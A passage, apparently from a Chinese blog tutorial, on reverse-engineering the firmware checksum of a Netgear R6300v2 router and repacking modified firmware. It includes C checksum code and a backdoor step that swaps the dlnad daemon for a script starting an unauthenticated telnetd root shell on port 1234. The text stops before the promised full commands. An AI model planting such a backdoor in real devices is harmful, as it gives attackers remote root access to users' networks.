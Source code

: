 我根据 IDA 反汇编的逻辑，自己写了一个 C 的计算 checksum 代码，如下：

```
#include<stdio.h>#include<stdlib.h>#include<stdint.h>int c1,c0;int main(){    //FILE *kernel_file_fd = fopen("R6300v2-V1.0.3.2_1.0.57.chk","rb");    FILE *kernel_file_fd = fopen("1","rb");    void *kernel_file = malloc(0x2000000);    int file_len = fread(kernel_file,1,0x2000000,kernel_file_fd);    int i;    for(i=0;i<file_len;i++){        c0 += *(unsigned char *)(kernel_file+i);        c1 += c0;    }    c0 = (c0 & 0x0ffff) + ((unsigned int)c0 >> 16);    c0  = ((c0 >> 16) + c0) & 0xffff;    c1 = (c1 & 0x0ffff) + ((unsigned int)c1 >> 16);    c1  = ((c1 >> 16) + c1) & 0xffff;    int checksum;    checksum = (c1 << 16) | c0;    printf("0x%x",checksum);}
```

首先在对 rootfs 计算 checksum 的位置下断点，通过查看计算的 checksum

![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBS0Foibj6xYACEiaIiaCvZqAiaJxibQEV4JRkCFonUmBNWuqeZJdcV30mpxUDicEiaHVhVdSxYP0cjMZibQFQ/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBS0Foibj6xYACEiaIiaCvZqAiaJqZcete2WKhfCkh9qQKSXQibb7JZicbiaibDuTYFnlUxs5UcMMVVHMIQmEQ/640?wx_fmt=png)

与 C 计算的一致  
接下来计算对 linux kernel 的 checksum

![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBS0Foibj6xYACEiaIiaCvZqAiaJLSxiafDCghD9t1BcYEjicC9xzAQxYQLhKqGU5XUTtPYZg4WAdh4Olsqw/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBS0Foibj6xYACEiaIiaCvZqAiaJArA98VxXHd5FiarWooXlzY66ye6PZgseGxEXkQ8URqAsoYkB6DA4URg/640?wx_fmt=png)

发现与 C 计算的也是一致的

接下来是计算了 rootfs+linux kernel 的 checksum

![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBS0Foibj6xYACEiaIiaCvZqAiaJN739EX3jxRY28DsyAibZiaTOKny3b1icG7S6KY3mms9JUFov6x7w7cYsQ/640?wx_fmt=png)

第一部分校验和是对 TRX header + linux kernel + squashfs 文件系统的校验

![](https://mmbiz.qpic.cn/mmbiz_png/PUubqXlrzBS0Foibj6xYACEiaIiaCvZqAiaJHOD4AOlEvwTvvgbH0IvkxlXnhUE2MzoOl4F0ghg3EpTTQtxnz2c0ww/640?wx_fmt=png)

56.7z 对应着固件中 linux kernel+squashfs 文件系统的部分

修改固件
----

### 设置后门

```
cd rootfs/usr/sbin
mv dlnad dlnadd
touch dlnad
vim dlnad
```

```
#!/bin/sh/usr/sbin/telnetd -F -l /bin/sh -p 1234 &/usr/sbin/dlnadd &
```

```
sudo chown 777 dlnad
```

将修改后的文件系统重新打包上传

在 netgear 某些版本中，无法直接开启 telnet 需要先创建设备文件  
完整命令如下：
